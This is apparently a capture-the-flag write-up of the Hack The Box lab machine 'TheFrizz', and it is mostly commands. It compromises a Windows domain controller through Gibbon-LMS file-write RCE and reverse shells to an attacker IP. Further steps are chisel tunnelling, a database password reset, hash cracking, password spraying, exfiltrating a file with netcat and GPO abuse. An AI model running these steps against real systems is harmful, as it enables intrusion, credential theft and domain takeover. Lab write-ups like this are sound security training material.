- Machine Name: TheFrizz
- OS Type: Windows
- Difficulty: Easy

### Port Scanning - Service & Version Enumeration

```php
# Nmap 7.95 scan initiated Sun May  4 06:29:31 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.11.60
Nmap scan report for 10.10.11.60
Host is up, received echo-reply ttl 127 (0.30s latency).
Scanned at 2025-05-04 06:29:32 EDT for 1306s
Not shown: 65515 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       REASON          VERSION
22/tcp    open  ssh           syn-ack ttl 127 OpenSSH for_Windows_9.5 (protocol 2.0)
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://frizzdc.frizz.htb/home/
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-05-04 17:48:55Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
62893/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
62897/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
62907/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Hosts: localhost, FRIZZDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-04T17:49:51
|_  start_date: N/A
|_clock-skew: 6h59m18s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 21203/tcp): CLEAN (Timeout)
|   Check 2 (port 26262/tcp): CLEAN (Timeout)
|   Check 3 (port 49509/udp): CLEAN (Timeout)
|   Check 4 (port 18496/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May  4 06:51:18 2025 -- 1 IP address (1 host up) scanned in 1307.06 seconds

```

## Enumeration

### Port 80/HTTP

i’ll start my enumeration from port 80, let’s visit the website in web browser



looks like website only allows access using hostname let’s add frizzdc.frizz.htb in /etc/hosts file



now refresh the web page



i found different content on the site



looks like base64 encoding? let’s decode it

```php
echo V2FudCB0byBsZWFybiBoYWNraW5nIGJ1dCBkb24ndCB3YW50IHRvIGdvIHRvIGphaWw/IFlvdSdsbCBsZWFybiB0aGUgaW4ncyBhbmQgb3V0cyBvZiBTeXNjYWxscyBhbmQgWFNTIGZyb20gdGhlIHNhZmV0eSBvZiBpbnRlcm5hdGlvbmFsIHdhdGVycyBhbmQgaXJvbiBjbGFkIGNvbnRyYWN0cyBmcm9tIHlvdXIgY3VzdG9tZXJzLCByZXZpZXdlZCBieSBXYWxrZXJ2aWxsZSdzIGZpbmVzdCBhdHRvcm5leXMu | base64 -d
```



nothing looks interesting for us

upon clicking on the **Staff Login** button we are redirected to **Gibbon-LMS** login page



let’s see what web technology used in site using `whatweb` 

```php
whatweb http://frizzdc.frizz.htb/
```



it shows the website is using php and apache server 

quick google search shows that the Gibbon-LMS is vulnerable to RCE -https://www.exploit-db.com/exploits/51903 

but it is authenticated RCE we need credentials for Gibbon-LMS



clicking on any option redirect us to another page, when i looked at url i found it might be vulnerable to LFI



the `q` parameter looks vulnerable, after searching for Gibbon LMS v25.0.0 exploit i confirmed that it is vulnerable to LFI 

[https://github.com/advisories/GHSA-mrqc-wm68-8hhj](https://github.com/advisories/GHSA-mrqc-wm68-8hhj)

https://github.com/maddsec/CVE-2023-34598 

but the catch is, that is only including files from it’s installation directory

on github i found the repo of Gibbon LMS system

[https://github.com/GibbonEdu/core](https://github.com/GibbonEdu/core)

which has some files that we can verify let’s first check robots.txt



i found that there’s interesting file called `gibbon.sql` 

***gibbon.sql*** which contains all the tables and data necessary for the operation of the software.
let’s try to dump it



but nothing interesting was found, after searching bit more i found the Arbitray file read vulnerability → https://github.com/advisories/GHSA-r526-pvv3-w6p8 :  [CVE-2023-45878](https://github.com/advisories/GHSA-r526-pvv3-w6p8)

let’s use exploit to get RCE

```php
python3 CVE-2023-45878.py -t frizzdc.frizz.htb -c whoami
```



to get reverse shell we can use -s option with -i for ip and -p for port

start the reverse shell listener on port 443 and run following command

```php
python3 CVE-2023-45878.py -t frizzdc.frizz.htb -s -i 10.10.14.17 -p 443
```



we got the shell on port 443



there’s no user folder on C:\Users folder.

let’s check what privileges do we have using `whoami /priv` 



Users on the Machine



let’s check our user’s group membership



enumerating the local files on machine i found database credentials in the C:\xampp\htdocs\Gibbon-LMS\config.php file 



let’s use the chisel to forward the mysql port to our kali machine

first transfer the [chisel.e](http://chisel.ee)xe to target machine and start chisel server for reverse proxy on kali

```php
chisel server --reverse --port 5000
```

on windows machine

```php
.\chisel.exe client 10.10.14.17:5000 R:3306:127.0.0.1:3306
```

now you can access mysql database from our kali machine

```php
mysql -h 127.0.0.1 -u MrGibbonsDB -p
```



it shows the SSL error we can resolve it by `--skip-ssl` 

```php
mysql -h 127.0.0.1 -u MrGibbonsDB -p --skip-ssl
```



run show databses; command to list the databases



hmm, to use the database gibbon run `use gibbon` 

let’s run show tables command to list the tables inside the gibbon database

```php
MariaDB [gibbon]> show tables;
+---------------------------------------+
| Tables_in_gibbon                      |
+---------------------------------------+
| gibbonaction                          |
| gibbonactivity                        |
| gibbonactivityattendance              |
| gibbonactivityslot                    |
| gibbonactivitystaff                   |
| gibbonactivitystudent                 |
| gibbonactivitytype                    |
| gibbonadmissionsaccount               |
| gibbonadmissionsapplication           |
| gibbonalarm                           |
| gibbonalarmconfirm                    |
| gibbonalertlevel                      |
| gibbonapplicationform                 |
| gibbonapplicationformfile             |
| gibbonapplicationformlink             |
| gibbonapplicationformrelationship     |
| gibbonattendancecode                  |
| gibbonattendancelogcourseclass        |
| gibbonattendancelogformgroup          |
| gibbonattendancelogperson             |
| gibbonbehaviour                       |
| gibbonbehaviourletter                 |
| gibboncountry                         |
| gibboncourse                          |
| gibboncourseclass                     |
| gibboncourseclassmap                  |
| gibboncourseclassperson               |
| gibboncrowdassessdiscuss              |
| gibboncustomfield                     |
| gibbondataretention                   |
| gibbondaysofweek                      |
| gibbondepartment                      |
| gibbondepartmentresource              |
| gibbondepartmentstaff                 |
| gibbondiscussion                      |
| gibbondistrict                        |
| gibbonemailtemplate                   |
| gibbonexternalassessment              |
| gibbonexternalassessmentfield         |
| gibbonexternalassessmentstudent       |
| gibbonexternalassessmentstudententry  |
| gibbonfamily                          |
| gibbonfamilyadult                     |
| gibbonfamilychild                     |
| gibbonfamilyrelationship              |
| gibbonfamilyupdate                    |
| gibbonfileextension                   |
| gibbonfinancebillingschedule          |
| gibbonfinancebudget                   |
| gibbonfinancebudgetcycle              |
| gibbonfinancebudgetcycleallocation    |
| gibbonfinancebudgetperson             |
| gibbonfinanceexpense                  |
| gibbonfinanceexpenseapprover          |
| gibbonfinanceexpenselog               |
| gibbonfinancefee                      |
| gibbonfinancefeecategory              |
| gibbonfinanceinvoice                  |
| gibbonfinanceinvoicee                 |
| gibbonfinanceinvoiceeupdate           |
| gibbonfinanceinvoicefee               |
| gibbonfirstaid                        |
| gibbonfirstaidfollowup                |
| gibbonform                            |
| gibbonformfield                       |
| gibbonformgroup                       |
| gibbonformpage                        |
| gibbonformsubmission                  |
| gibbonformupload                      |
| gibbongroup                           |
| gibbongroupperson                     |
| gibbonhook                            |
| gibbonhouse                           |
| gibboni18n                            |
| gibbonin                              |
| gibboninarchive                       |
| gibboninassistant                     |
| gibbonindescriptor                    |
| gibbonininvestigation                 |
| gibbonininvestigationcontribution     |
| gibboninpersondescriptor              |
| gibboninternalassessmentcolumn        |
| gibboninternalassessmententry         |
| gibbonlanguage                        |
| gibbonlibraryitem                     |
| gibbonlibraryitemevent                |
| gibbonlibrarytype                     |
| gibbonlog                             |
| gibbonmarkbookcolumn                  |
| gibbonmarkbookentry                   |
| gibbonmarkbooktarget                  |
| gibbonmarkbookweight                  |
| gibbonmedicalcondition                |
| gibbonmessenger                       |
| gibbonmessengercannedresponse         |
| gibbonmessengerreceipt                |
| gibbonmessengertarget                 |
| gibbonmigration                       |
| gibbonmodule                          |
| gibbonnotification                    |
| gibbonnotificationevent               |
| gibbonnotificationlistener            |
| gibbonoutcome                         |
| gibbonpayment                         |
| gibbonpermission                      |
| gibbonperson                          |
| gibbonpersonaldocument                |
| gibbonpersonaldocumenttype            |
| gibbonpersonmedical                   |
| gibbonpersonmedicalcondition          |
| gibbonpersonmedicalconditionupdate    |
| gibbonpersonmedicalupdate             |
| gibbonpersonreset                     |
| gibbonpersonstatuslog                 |
| gibbonpersonupdate                    |
| gibbonplannerentry                    |
| gibbonplannerentrydiscuss             |
| gibbonplannerentryguest               |
| gibbonplannerentryhomework            |
| gibbonplannerentryoutcome             |
| gibbonplannerentrystudenthomework     |
| gibbonplannerentrystudenttracker      |
| gibbonplannerparentweeklyemailsummary |
| gibbonreport                          |
| gibbonreportarchive                   |
| gibbonreportarchiveentry              |
| gibbonreportingaccess                 |
| gibbonreportingcriteria               |
| gibbonreportingcriteriatype           |
| gibbonreportingcycle                  |
| gibbonreportingprogress               |
| gibbonreportingproof                  |
| gibbonreportingscope                  |
| gibbonreportingvalue                  |
| gibbonreportprototypesection          |
| gibbonreporttemplate                  |
| gibbonreporttemplatefont              |
| gibbonreporttemplatesection           |
| gibbonresource                        |
| gibbonresourcetag                     |
| gibbonrole                            |
| gibbonrubric                          |
| gibbonrubriccell                      |
| gibbonrubriccolumn                    |
| gibbonrubricentry                     |
| gibbonrubricrow                       |
| gibbonscale                           |
| gibbonscalegrade                      |
| gibbonschoolyear                      |
| gibbonschoolyearspecialday            |
| gibbonschoolyearterm                  |
| gibbonsession                         |
| gibbonsetting                         |
| gibbonspace                           |
| gibbonspaceperson                     |
| gibbonstaff                           |
| gibbonstaffabsence                    |
| gibbonstaffabsencedate                |
| gibbonstaffabsencetype                |
| gibbonstaffapplicationform            |
| gibbonstaffapplicationformfile        |
| gibbonstaffcontract                   |
| gibbonstaffcoverage                   |
| gibbonstaffcoveragedate               |
| gibbonstaffduty                       |
| gibbonstaffdutyperson                 |
| gibbonstaffjobopening                 |
| gibbonstaffupdate                     |
| gibbonstring                          |
| gibbonstudentenrolment                |
| gibbonstudentnote                     |
| gibbonstudentnotecategory             |
| gibbonsubstitute                      |
| gibbontheme                           |
| gibbontt                              |
| gibbonttcolumn                        |
| gibbonttcolumnrow                     |
| gibbonttday                           |
| gibbonttdaydate                       |
| gibbonttdayrowclass                   |
| gibbonttdayrowclassexception          |
| gibbonttimport                        |
| gibbonttspacebooking                  |
| gibbonttspacechange                   |
| gibbonunit                            |
| gibbonunitblock                       |
| gibbonunitclass                       |
| gibbonunitclassblock                  |
| gibbonunitoutcome                     |
| gibbonusernameformat                  |
| gibbonyeargroup                       |
+---------------------------------------+
191 rows in set (0.319 sec)
```

there are many tables in the database i searched on google for table name that stores the login information in Gibbon LMS i found that gibbonPerson table stores the login information



let’s extract data from the `gibbonPerson` table

> Note: I first run select * from gibbonPerson; query then i found the appropriate columns names to run exect query to get only id,username and password
> 

```php
select gibbonPersonID,username,Passwordstrong from gibbonPerson;
```



i tried to crack the password but no success, so i tried to update password and i found this thread which shows the correct query to update the password

https://ask.gibbonedu.org/t/admin-password-reset-no-password-field-in-sql/3746

```php
UPDATE gibbonPerson SET passwordStrong=SHA2(CONCAT(@salt:=SUBSTRING(MD5(RAND()), 1, 22), "admin@123"), 256), passwordStrongSalt=@salt WHERE gibbonPerson.gibbonPersonID=0000000001;
```



also after running select query we noticed that hash is now changed we assume that we successfully updated the password of f.frizzle user

let’s login to Gibbon portal using `f.frizzle:admin@123` creds



and Boom! we’re in

let’s try the https://www.exploit-db.com/exploits/51903 as now we have valid credentials 

let’s check if the Exploit it working or not we’ll start tcpdump to capture ICMP request on kali machine

```php
sudo tcpdump -i tun0 icmp -v
```

and then run the exploit

```php
python3 51903.py 10.10.11.60 80/Gibbon-LMS 'f.frizzle@frizz.htb' 'admin@123' "ping -n 1 10.10.14.17"
```



on tcpdump output



we run the whoami command to see what user we have RCE as



LOL 😂 we’re still at w.webservice user!

let’s try again to crack the hash this time i am using different approach to crack the hash first create a hash file that contains following hash

```php
f.frizzle:$dynamic_82$067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03$/aACFhikmNopqrRTVz2489
```



crack the hash using john

```php
john --format=dynamic='sha256($s.$p)' f_frizzle.hash --wordlist=/usr/share/wordlists/rockyou.txt
```



let’s check the password using netexc

```php
netexec smb 10.10.11.60 -u f.frizzle -p Jenni_Luvs_Magic23
```



it shows not supported maybe it requires the kerberos authentication? let’s verify this using kerbrute 

```php
kerbrute bruteuser --dc 10.10.11.60 -d frizz.htb password.txt f.frizzle -v
```



first we’ll need to sync the times of KDC and our kali machine

```php
kerbrute bruteuser --dc 10.10.11.60 -d frizz.htb password.txt f.frizzle -v
```



let’s get TGT for the user 

```php
	impacket-getTGT frizz.htb/f.frizzle:Jenni_Luvs_Magic23 -dc-ip 10.10.11.60
```



it will save ticket in f.frizzle.ccache, let’s export it

now in order to access the SSH over kerberos we can use following command to first initialize the ticket and then use it

```bash
kinit f.frizzle@frizz.htb
```

use ssh to connect

```bash
ssh f.frizzle@frizzledc.frizz.htb -K
```



then i ran the bloodhound to capture information about the Domain 

```bash
bloodhound-python -c all -d frizz.htb -u f.frizzle -p 'Jenni_Luvs_Magic23' -ns 10.10.11.60
```

above command will gather the data from domain using f.frizzle’s creds

load the json files to bloodhound 

i checked the f.frizzle doens’t have any special  permissions on the Domain we’ll get back to it later.

after completely scanning the machine manually and using winpeas we didn’t find anything useful, then i think about what if we check inside the Recycle bin of the user

to do so we need to check `C:\$RECYCLE.BIN\<USER-SID>` 

to get the User’s SID use following command (it will provide the f.frizzle’s SID)

```bash
Get-LocalUser -Name f.frizzle | select-Object sid
```



then cd to user’s SID directory and we found interesting 7z file in the recycle bin



we used  the powershell command to copy the ZIP file from the Recycle Bin to \temp foldder

```bash
Copy-Item -Path 'C:\$RECYCLE.BIN\S-1-5-21-2386970044-1145388522-2932701813-110
3\$RE2XMEG.7z' -Destination C:\temp\test.7z
```



now we need to transfer this file to our kali machine we can do this via netcat

```bash
cmd /c "\temp\nc.exe 10.10.14.17 443 < test.7z"
```



on kali machine

```bash
nc -nvlp 443 > file.7z
```



on kali we’ve extracted file using 7z command

```bash
7z x file.7z
```



after searching for bit we’ve found the likely base64 encoded password in conf/waptserver.ini file



let’s try to decode it

```bash
echo "IXN1QmNpZ0BNZWhUZWQhUgo=" | base64 -d
```



let’s check the password for list of the users using kerbrute

```bash
kerbrute passwordspray --dc 10.10.11.60 -d frizz.htb users.txt '!suBcig@MehTed!R'
```



let’s check the group membership of the M.SchoolBus user

```bash
net user M.SchoolBus
```



let’s check the bloodhound to see if the new user has any interesting permissions



we noticed that user M.SchoolBus owns all the users except Administrator and v.frizzle who is the member of Domain Admins so we need to abuse the `WriteGPLink` permissions

as we can see that there’s Class_Frizz Group policy and it is not default domain policy, let’s abuse this to get Domain Admin access

first we need to login as M.SchoolBus, we’ll first initialize the TGT and then check if the ticket it initialized in memory using klist command

```bash
kinit M.SchoolBus@FRIZZ.HTB
```



nice we can now log in using 

```bash
ssh M.SchoolBus@frizz.htb -K
```



we’ll use https://github.com/FSecureLABS/SharpGPOAbuse to Add our M.SchoolBus user in Local Administrators group

we’ll list available GPOs using 

```bash
Get-GPO -All
```



we found 2 GPOs but we are not owner of it so we need to create a new GPO and then 

let’s create a new GPO and then we’ll abuse it

```bash
New-GPO -Name New-GPO | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes
```



now again we’ll run the `Get-GPO -All` command to list the GPOs



Nice now let’s use the SharpGPOAbuse to add M.SchoolBus user to Local Administrators group 

```bash
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName New-GPO --force
```



let’s update the group policy by

```bash
gpupdate /force
```



let’s check the group membership of m.schoolbus user using `net user m.schoolbus` 



Bingo we are now Administrator on the DC

we’ll use the RunasCs.exe binary to spawn  another shell as M.SchoolBus user in which we’ll have full privileges that local Administrator Account has

transfer the RunasCs.exe to target machine

start netcat listener on port 443 on kali

```bash
.\runas.exe M.SchoolBus "!suBcig@MehTed!R" powershell.exe -r 10.10.14.17:443
```



we get the reverse shell on kali port 443



